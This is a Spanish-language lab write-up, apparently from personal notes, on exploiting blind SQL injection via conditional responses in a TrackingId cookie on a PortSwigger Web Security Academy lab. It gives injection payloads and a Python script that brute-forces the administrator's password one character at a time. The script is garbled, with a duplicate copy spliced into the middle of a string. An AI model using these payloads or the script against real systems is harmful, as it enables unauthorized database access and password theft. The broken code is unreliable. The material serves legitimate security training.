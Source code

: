 La idea de este tipo de ataques es que la web es vulnerable a SQLi pero a la hora de inyectar querys vemos cambios en el comportamiento de la web pero no vemos la salida directamente por lo que nos basamos es esas respuestas condicionales de la web para extraer información

En este caso explotaremos nuevamente las tracking id ([[Exploiting blind SQL injection by triggering conditional responses]]) y emplearemos caido para hacer fuerza bruta

```http
// En este caso vemos que con 1=1 se muestra el mensaje welcome y con 1=2 no se muestra siendo vulnerable
Cookie: TrackingId=gdFX0T2vTzlEi85Q' and 1=1--;
```

Con esta logica y ademas en este ejercicio sabemos que existe una tabla llamada users con columas username y password podemos verficar si el username de administrator comienza con a, si es verdad se muestra el welcome 


```http
// administrator comienza con la letra a es True
Cookie: TrackingId=gdFX0T2vTzlEi85Q' and ( select substring(username,1,1) from users where username='administrator' )='a'--;
```

Con esta logica podemos comenzar a fuzzear la data del contenido de password (una vez encontrada la primer letra nos movemos a la siguiente con subtring(password,2,1))

Para **automatizar** este fuzzing podemos usar el automate de Caido para introduccir un diccionario con la posible letras o podemos hacer un script de python

**Caido**
1) cargamos el payload en automate
2) Vemos que debe haber uno que tenga un tamaño diferente a los demas significa que es verdadero(ya que ese muestra el mensaje de welcome)
![[fuzzcaido.png]]
3) Ya adivinamos el primer carácter (es un 2) y seguimos así hasta encontrarlos todos

### Python

Preferi hacerlo con python `  and (select substring(password,{position},1) from users where username='administrator')='{character}'-- -` se van intercambiando esos valores para fuzzear las contraseña esto fue mucho mejor

```py
#!/usr/bin/env python3

from pwn import *
from termcolor import colored
import requests
import sys
import signal
import string

def handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo"), 'red')
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, handler)

characteres= string.ascii_lowercase + string.digits

p1 = log.progress("SQLi")

def makeSQLi():
    p1.status("Iniciando fuerza bruta")

    password = ""

    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characteres:
            cookies = {
                'TrackingId': f"LkUilJbh6SbiKunf'  and (select substring(password,{position},1) from users where username=#!/usr/bin/env python3

​￼def handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo"), 'red')
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, handler)

characteres= string.ascii_lowercase + string.digits

p1 = log.progress("SQLi")

​￼def makeSQLi():
    p1.status("Iniciando fuerza bruta")

    password = ""

    p2 = log.progress("Password")

    ​￼for position in range(1,21):
        ​￼for character in characteres:
            ​￼cookies = {
                'TrackingId': f"LkUilJbh6SbiKunf'  and (select substring(password,{position},1) from users where username='administrator')='{character}'-- -",
                'session':  "GMuEVMBnAVuFhCIzRpcrPuzjQn1T995b"
            }

            p1.status(cookies["TrackingId"])

            ​￼try:
                r = requests.get("https://0a1300c203a0f6df82021f34001700f4.web-security-academy.net/", cookies=cookies, timeout=5)
            ​￼except requests.exceptions.RequestException:
                continue

            ​￼if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

​￼if __name__ == '__main__':
    makeSQLi()'administrator')='{character}'-- -",
                'session':  "GMuEVMBnAVuFhCIzRpcrPuzjQn1T995b"
            }

            p1.status(cookies["TrackingId"])

            try:
                r = requests.get("https://0a1300c203a0f6df82021f34001700f4.web-security-academy.net/", cookies=cookies, timeout=5)
            except requests.exceptions.RequestException:
                continue

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

